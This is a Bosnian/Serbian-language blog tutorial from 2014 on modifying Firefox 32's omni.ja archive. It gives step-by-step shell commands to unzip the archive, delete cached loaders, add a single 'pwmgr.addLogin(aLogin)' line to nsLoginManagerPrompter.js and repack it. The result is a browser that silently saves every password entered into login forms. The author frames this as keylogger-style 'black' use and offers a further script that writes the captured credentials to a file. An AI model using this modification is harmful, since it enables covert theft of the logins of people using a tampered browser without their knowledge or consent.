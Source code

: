 ```yaml
---
title: Hacking Firefox for fun & lo<3
date: Oct 10 2014
tags: ["firefox", "omni", "keylogger", "vuln"]
---
```


**Napomena**: Ovaj tutorial je pisan u 2014. godini, a objavljen 2016. Sretna nova godina!

## Intro
Kako dugo nisam pisao nijedan post na blogu a imam veliku želju da ga držim što je moguće ažuriranim, sjetio sam se da nešta napišem.
  
Danas ću pisati o tome na koji način možete da koristeći se outline funkcijama u Firefox automatski spasite sve šifre ukucane u formu bez ikakvog dodatnog pritiska na dugme "Remember Me", a ne koristeći se nijednom external bibliotekom.  
  
Sam uvod ću početi tako što ću opisati algoritam i postupak rada. Prvo ćemo uzeti u obzir da je Mozillin web-pretraživač naziva **Firefox** otvorenog koda te ako volite da 'hakirate' (čitaj: buljite u monitor / text-editor), isti možete preuzeti i re-programirati sa svojim very-own funckijama i dodatcima.  
  
**Firefox** je kao što sam već naveo open-source projekat na kojem rade veliki majstori u društvenom remote ili lokal okruženju pod nazivom **Mozilla Community**. Njihov posao je da u slobodno vrijeme ažuriraju kod, traže rupe, pridodaju ideje, pišu dokumente, bacaju hejt, i tome slično. Međutim, Firefox je vrlo rasprostranjen u upotrebi u poslovnom i privatnom aražmanu. To određenim ljudima predstavlja jednu ideologiju u kojoj se razmišljajući na drugi način, obuhvata i *crno* korištenje i zloupotrebljavanje tog koda na način da se rupe ne prijavljuju nego da se koriste u određene svrhe.  
  
Da pređemo na posao, u napomenu bi još stavio i to da svako može da prati ovaj tutorijal ako ima iole znanja u informatici te nix sistemima. Zašto nix? Zato što se ja vrtim na njemu dok pišem ovaj tekst. **Tutorijal važi i za Windows build Firefoxa**!
  
    Verzija: pod kojom radim je Mozilla Firefox 32.0.3
    Sistem : na kojem radim je Crunchbang Waldorf (Debian)
 
## Firefox + JS = </3
Mozilla Firefox ima djelimično zanimljiv koncept rada, a on se bazira na jednostavnim modulima ispisanim u JavaScript. Firefox naime koristi Javascript (vjerovatno pomoću raznih frameworka) i kao add-on language-of-choice i kao njegov izvorni core pojedinih funkcija. Samim tim možemo slobodno reći da Firefox omogućava svim korisnicima da jednim jezikom izvedu više operacija te da se dijeljenje funkcija i procedura obostrano koristi.
  
Razlog zašto pričam o ovome je taj da se i princip internog logiranja bazira na već naglašenoj Javascript proceduri. Ako se pitate zašto...
  
## Omni.ja (.ti, .on, .oni, .mi, .vi?)
Čudan header, a šta je to **OMNI**.ja --- Omni je skup lokaliziranih fajlova koji čine Firefox preference i kodove otvorenog tipa. Omni.ja je u ranijim verzijama Firefoxa bio prepoznatljiv po nazivu Omni.**JAR**, dok u još ranijim verzijama nije ni postojao nego su svi fajlovi bili smješteni u folderu Firefox instalacije. Razlog zašto je Firefox zamrsio posao i meni, i vama i svima koji prate tutorijal je upravo taj, zbog sigurnosnih razloga (a i zbog I/O loading procedura koje su sad brže).

Više o Omni.ja fajlovima možete pročitati na **Mozilla Developer Network** stranici  [ovdje](https://developer.mozilla.org/en-US/docs/Mozilla/About_omni.ja_%28formerly_omni.jar%29) . 

## O kakvom problemu je riječ?
**Omni.ja** fajl ne završava sa prepoznatljivom ekstenzijom ".jar" samo zato što šugavi Windows System Restore ne spašava istu, pa se Mozilla rekompilacijom odlučila za **.ja** ekstenzijom, ali je tu proceduru ubacila i u *nix izdanjima što je sasvim logično budući da se radi o otvorenom projektu.

Da vidimo o kakvom je fajlu riječ, uradio sam hexdump prvih 10 bajtova:

    medo@server:/opt/firefox$ hexdump -C -n 10 omni.ja 
    00000000  50 4b 03 04 14 00 02 00  08 00                    |PK........|

Uuu.. zanimljivo zvuči, nešta kao.. Čekaj, čekaj :-)

    medo@server:/opt/firefox$ file omni.ja 
    omni.ja: Zip archive data, at least v2.0 to extract

Tu sam te čekao. Našom malom, privatnom investigacijom, došli smo do zaključka da je to ustvari samo **ZIP fajl**, baš kao što piše i na MDN (Izvinite na sarkazmu). Pratite me, kopirajte originalni omni.ja u novi folder.

    medo@server:/opt/firefox$ sudo mkdir omninew && sudo cp omni.ja omninew/

Odlično, idemo dalje. Sad ide unzip po default opcijama, ili kako vama odgovara, samo ne dirajte headere i to je to.

    $ sudo unzip omni.ja
    $ sudo rm omni.ja

Sad su nam ostale samo bitne stvari, malo editovanja, spašavanje, zipovanje i to je to.

## Cached files zadaju probleme - po prvi put
U biti, cached fajlovi nam nikad ne bi trebali zadavati probleme, oni su tu da ubrzaju repetativni proces, ali u ovom slučaju zadaju. Ako su u default **Omni.ja** fajlovima smještene cached procedure (a jesu), naš novo-kompanovani fajl se ne bi re-kešao jer Firefoxu to nije potrebno. 

Kešovani fajlovi unutar Omni.ja se nalaze u direktoriju naziva **jaloader** i **jssubloader** (zahvaljujem se Archaeopteryx i jdm korisnicima sa oficijalnog IRC MDN-a što su me pointali zbog problema) i ako ti fajlovi nisu izbrisani prije re-zipovanja, naš kod kao što sam već rekao neće ni raditi.

    $ sudo rm -rf jsloader/ && sudo rm -rf jssubloader/

Šta sad?

## Pozivanje pre-definisanih funkcija
Ako uđemo unutar direktorija **components** možemo vidjeti razne **.js** fajlove a isti služe da ih Firefox poziva tokom load-time ili run-time. Ovi fajlovi su kao što sam već naveo dio Mozillinih modula i ostvaruju mogućnost re-edita i kompilacije pojedinih stvari. Mi ćemo u jednom od tih fajlova ispisati jednu liniju koda koja će se pozvati onda kada mi to budemo željeli.

    omninew $ ls
    chrome  chrome.manifest  **components**  defaults  greprefs.js  hyphenation  modules  res  update.locale
    omninew $ cd components/

Ovdje imate toliko fajlova koje će vam pružiti veliku mogućnost podešavanja Firefox-a da je to prosto nemoguće šta se sve može uraditi, a ako mi nevjerujete.

    components $ ls -l . | wc -l
    92

Sa ukupnih 92 fajla, ja mislim da je to sasvim dovoljno da se zabavljate onda kad vam je dosadno. Što se tiče današnjeg tutorijala, mene iskreno interesuje samo jedan fajl.

    components $ file nsLoginManagerPrompter.js 
    nsLoginManagerPrompter.js: ASCII text

Otvorite gore navedeni fajl u vašem najdražem code editoru (vim ftw) i idite do linije 769 odnosno do funkcije  `_showSaveLoginNotification `. Bacanjem pogleda na naziv funkcije vidimo da se ista poziva onda kada se tokom POST procesa u formi baca popup "spasi ovu lozinku" ko na slici dole samo ni nalik (ugl. da znate o čemu je riječ).

![Info-pwSaveLoginNotification](http://i.imgur.com/sshVtLd.png?1)

A tu je i komentar od strane developera.

    /*
     * _showSaveLoginNotification
     *
     * Displays a notification bar or a popup notification, to allow the user
     * to save the specified login. This allows the user to see the results of
     * their login, and only save a login which they know worked.
     *
     * @param aNotifyObj
     *        A notification box or a popup notification.
     */

Ako odemo na liniju `800` možemo primjetiti da se tu kreira nova varijabla u koju je smješten objekat `_pwmgr`.

    var pwmgr = this._pwmgr;

Ispod vidimo funckije pozivanja po odabiru dugmića koji pritišćemo (Remember Me, Not Now, Never for this site). Mi želimo da se pri svakom POST zahtjevu u login formi pozove ista funkcija kao i u Remember Me. Sve što trebamo je da dodamo jednu liniju ispod L.N. 800 tako da sve zajedno izgleda ovako.

    var pwmgr = this._pwmgr;
    pwmgr.addLogin(aLogin)

## Šta smo uradili?
Jednostavno smo pozvali varijablu (predefinisani objekat) `pwmgr`, zatim smo pozvali funkciju iz procedure `_pwmgr` koja je već definisana (`AddLogin`), a zatim unijeli informacije koje su poslane kroz zahtjev `aLogin`.

Sada nam je ostalo još repakiranje i testiranje.

## Repakiranje
U [MDN](https://developer.mozilla.org/en-US/docs/Mozilla/About_omni.ja_%28formerly_omni.jar%29) stirktno je naveden način repakiranja svih fajlova da se isti mogu loadovati bez header corruption unutar Firefox-a. 

    zip -qr9XD omni.ja *
 
Vratimo se u omninew/ direktorij a zatim pišemo sljedeću komandu.

    omninew $ sudo zip -qr9XD omni.ja *

Što znači pakiraj sve fajlove bešumno (bez listanja) i rekruzivno sa boljom kompresijom bez dodatnih atributa i bez dodavanja direktorijskih dodataka. Sve što nam je ostalo je da zamjenimo stari **Omni.ja** sa novim. Možete usput dodati i `chmod` da Firefox ima osnovne privse a to je da se samo čitaju.

    omninew $ sudo rm ../omni.ja && sudo cp omni.ja ../.

## Outro
U biti, to bi bilo to, stim da postoji dodatna funkcija koju sam napisao a koju ću zainteresovanim da pošaljem ili da postavim na blog (ako vas ima dovoljno zainteresovanih naravno) koja umjesto što spašava sve user/passwd informacije u internom Firefox password manager modulu, spašava ih u fajlu koristeći se I/O Firefox metodama koji su također na [MDN](https://developer.mozilla.org/en-US/Add-ons/Code_snippets/File_I_O). Skripta je malo duža (malo hah), i zahtjeva da unaprijed znate ove osnove.

Hvala svima koji pružaju podršku na ovaj ili onaj način. Poseban shot-out za Ljusku jer odavno nisam postavio ništa. CO: tr3x, c0ax, v0da, Krunix, marko, codex, gz4rth, Neuroticar i drugi! :-)